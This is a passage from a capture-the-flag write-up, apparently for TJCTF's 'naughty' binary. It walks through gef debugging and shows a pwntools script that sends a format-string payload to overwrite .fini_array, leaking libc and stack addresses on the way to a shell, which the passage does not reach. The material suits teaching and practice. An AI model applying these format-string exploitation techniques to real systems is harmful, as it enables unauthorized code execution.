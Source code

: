 ```
gef➤  x/1wx 0x08049bac
0x8049bac:	0x8048500
gef➤  set {int}0x08049bac = main
gef➤  x/1wx 0x08049bac
0x8049bac:	0x8048536
```

Then `continue` and `ni` until you get to:

```
 →  0x8048656 <main+288>       ret
```

Checking the stack, the return address should be returning code execution to `_dl_fini_`:
 
```
0xffffd5cc│+0x0000: 0xf7fe5b9a  →  <_dl_fini+490> sub esi, 0x4 ← $esp
```

Using the leaked stack address (`%19$p`) and return address, compute the offset:

```
gef➤  print 0xffffd664 - 0xffffd5cc
$1 = 0x98
```

We have all the bits we need.

_Naughty list, here I come._


## Exploit

### Attack Plan

1. Gain a second pass while leaking libc and stack addresses
2. Get a shell, get the flag


### Gain a second pass while leaking libc and stack addresses

```python
#!/usr/bin/python3

from pwn import *

#p = process('./naughty')
#libc = ELF('/lib/i386-linux-gnu/libc.so.6')
p = remote('p1.tjctf.org', 8004)
libc = ELF('libc-database/db/libc6-i386_2.27-3ubuntu1_amd64.so')

binary = ELF('./naughty')
fini_array = binary.get_section_by_name('.fini_array').header.sh_addr

### 1st pass
p.recvuntil('What is your name?')

payload  = b''
payload += b'%' + str((binary.symbols['main']) & 0xFFFF).rjust(6,'0').encode() + b'x'
payload += b'%14$hn  '
payload += b'%2$p'
payload += b' %19$p  '
payload += p32(fini_array)

p.sendline(payload)
```
